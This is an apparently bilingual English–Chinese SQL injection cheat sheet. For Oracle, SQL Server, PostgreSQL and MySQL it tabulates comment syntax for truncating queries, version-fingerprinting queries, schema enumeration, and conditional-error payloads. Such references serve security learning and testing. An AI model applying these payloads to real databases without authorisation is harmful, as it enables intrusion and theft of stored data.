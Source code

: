 You can use comments to truncate a query and remove the portion of the original query that follows your input.

你可以使用注释来截断查询并移除掉原始查询中你的输入后面的部分。

| Oracle     | <p><code>--comment</code><br></p>                                                                                          |
| ---------- | -------------------------------------------------------------------------------------------------------------------------- |
| Microsoft  | <p><code>--comment</code><br><code>/*comment*/</code></p>                                                                  |
| PostgreSQL | <p><code>--comment</code><br><code>/*comment*/</code></p>                                                                  |
| MySQL      | <p><code>#comment</code><br><code>-- comment</code> [Note the space after the double dash]<br><code>/*comment*/</code></p> |

MySQL双破折号注释后要跟上一个空格。

### Database version-数据库版本 <a href="#database-version" id="database-version"></a>

You can query the database to determine its type and version. This information is useful when formulating more complicated attacks.

| Oracle     | <p><code>SELECT banner FROM v$version</code><br><code>SELECT version FROM v$instance</code><br></p> |
| ---------- | --------------------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT @@version`                                                                                  |
| PostgreSQL | `SELECT version()`                                                                                  |
| MySQL      | `SELECT @@version`                                                                                  |

### Database contents-数据库内容 <a href="#database-contents" id="database-contents"></a>

You can list the tables that exist in the database, and the columns that those tables contain.

你可以列出数据库中存在的表，以及这些表含有的列。

<table data-header-hidden><thead><tr><th width="139"></th><th></th></tr></thead><tbody><tr><td>Oracle</td><td><code>SELECT * FROM all_tables</code><br><code>SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'</code></td></tr><tr><td>Microsoft</td><td><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></td></tr><tr><td>PostgreSQL</td><td><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></td></tr><tr><td>MySQL</td><td><code>SELECT * FROM information_schema.tables</code><br><code>SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'</code><br></td></tr></tbody></table>

### Conditional errors <a href="#conditional-errors" id="conditional-errors"></a>

You can test a single boolean condition and trigger a database error if the condition is true.

| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| ---------- | --------------------------------------------------------------------------------------- |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |
